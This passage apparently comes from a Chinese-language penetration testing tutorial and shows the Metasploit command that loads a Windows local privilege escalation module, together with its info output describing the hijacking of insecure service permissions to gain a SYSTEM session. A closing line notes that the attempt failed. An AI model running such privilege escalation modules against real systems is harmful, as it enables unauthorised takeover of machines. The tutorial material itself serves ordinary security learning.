 ```
use exploit/windows/local/service_permissions  
```

模块的描述如下：

```
    msf > info exploit/windows/local/service_permissions

    Name: Windows Escalate Service Permissions Local Privilege Escalation
    Module: exploit/windows/local/service_permissions
    Platform: Windows
    Privileged: No
    License: Metasploit Framework License (BSD)
    Rank: Great
    Disclosed: 2012-10-15

    Provided by:
    scriptjunkie

    Available targets:
    Id Name
    -- ----
    0 Automatic

    Basic options:
    Name  Current Setting Required Description
    ----  --------------- -------- -----------
    AGGRESSIVE false   no  Exploit as many services as possible (dangerous)
    SESSION      yes  The session to run this module on.

    Payload information:

    Description:
    This module attempts to exploit existing administrative privileges 
    to obtain a SYSTEM session. If directly creating a service fails, 
    this module will inspect existing services to look for insecure file 
    or configuration permissions that may be hijacked. It will then 
    attempt to restart the replaced service to run the payload. This 
    will result in a new session when this succeeds.

```

正如我们在以下输出中所看到的，漏洞再次运行，但仍然没有成功。这可能是一个失败，但从输出中，我们现在知道没有任何使用弱配置运行的服务。从会话超时，我们现在知道任何尝试使用这种方法欺骗服务的方法都是失败的：
